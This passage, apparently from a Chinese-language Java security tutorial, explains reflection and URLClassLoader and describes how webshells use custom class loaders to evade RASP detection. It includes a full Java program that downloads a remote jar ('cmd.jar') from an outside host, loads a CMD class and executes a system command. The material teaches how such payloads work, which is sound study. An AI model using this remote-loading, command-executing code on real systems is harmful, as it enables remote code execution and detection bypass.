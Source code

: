 ```java

            // 反射调用hello方法,等价于 String str = t.hello();
            String str = (String) method.invoke(testInstance);

            System.out.println(str);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
```

在 Web 安全领域中，利用自定义类加载器我们可以在 webshell 中实现加载并调用自己编译的类对象，比如本地命令执行漏洞调用自定义类字节码的 native 方法绕过 RASP 检测，也可以用于加密重要的 Java 类字节码（只能算弱加密了）。

## URLClassLoader

`URLClassLoader` 继承了 `ClassLoader`，它提供了加载远程资源的能力，在写漏洞利用的 `payload` 或者 `webshell` 的时候我们可以使用这个特性来加载远程的 jar 来实现远程的类方法调用。

以下面的 TestURLClassLoader 为例：

```java
package com.anbai.sec.classloader;

import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.net.URL;
import java.net.URLClassLoader;

public class TestURLClassLoader {

    public static void main(String[] args) {
        try {
            // 定义远程加载的jar路径
            URL url = new URL("https://anbai.io/tools/cmd.jar");

            // 创建URLClassLoader对象，并加载远程jar包
            URLClassLoader ucl = new URLClassLoader(new URL[]{url});

            // 定义需要执行的系统命令
            String cmd = "ls";

            // 通过URLClassLoader加载远程jar包中的CMD类
            Class cmdClass = ucl.loadClass("CMD");

            // 调用CMD类中的exec方法，等价于: Process process = CMD.exec("whoami");
            Process process = (Process) cmdClass.getMethod("exec", String.class).invoke(null, cmd);

            // 获取命令执行结果的输入流
            InputStream           in   = process.getInputStream();
            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            byte[]                b    = new byte[1024];
            int                   a    = -1;

            // 读取命令执行结果
            while ((a = in.read(b)) != -1) {
                baos.write(b, 0, a);
            }

            // 输出命令执行结果
            System.out.println(baos.toString());
        } catch (Exception e) {
            e.printStackTrace();
        }
```